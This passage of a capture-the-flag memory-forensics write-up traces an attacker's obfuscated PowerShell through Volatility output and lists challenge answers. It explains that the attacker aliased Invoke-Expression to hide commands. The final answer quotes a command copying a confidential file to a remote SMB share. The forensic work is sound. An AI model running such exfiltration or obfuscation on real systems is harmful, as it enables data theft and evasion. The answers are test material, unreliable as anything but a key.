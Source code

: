
5. To identify data saved on the clipboard, in volatility2 we can use **clipboard** plugin.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/319a3198-d582-476c-867d-04708c92bd39)


6. Noticed the first data shown is kinda obfuscated, this could indicate the obfuscated mentioned at the questions.
7. To make sure that this is the copied command, we can use **cmdscan** plugin to check what command executed on the poweshell.exe process.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ce9988ae-f96f-4aa8-a788-8ca1b93837c0)


8. Based from the result above, we can identify that the command is executed both in cmd and powershell. It's valid then, that the copied command is our interest.

> 4TH QUESTION --> ANS: Invoke-Expression

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8dee0847-91b7-41b0-9305-ec976561fd5b)


9. Took me a while to identify the targeted powershell cmdlet. I used **consoles** plugin to check the result of the executed obfuscated command.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e04d8fbe-1294-4ca3-8790-a2f6dfbd4352)


10. Interesting it's resulting to **iex**, searching on the internet about **iex** found that **iex** stands for **Invoke Expressions**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d09b4843-b673-4589-b9cb-c706ca19a6c9)


#### NOTES:

```
What is IEX?
EX stands for "Invoke-Expression" in PowerShell. It's a cmdlet used to run a string as a PowerShell command. This means it allows PowerShell scripts to dynamically execute code stored in a string variable. It's a powerful feature but can also pose security risks if used improperly, as it enables dynamic execution of potentially malicious commands

Attacker tried to set an alias for IEX, this could be an attempt to obfuscate malicious PowerShell commands. By creating an alias for Invoke-Expression, an attacker may make it harder for security tools or analysts to detect and understand the true nature of the executed code
```

11. The article visited shows the obfuscated command that is similiar with what the attacker send.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9925ac30-ea5d-496f-83d1-22056d1085c1)


12. It's clear that the attacker tried to set an alias for **Invoke Expression** cmdlet.

> 5TH QUESTION --> ANS: `type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt`
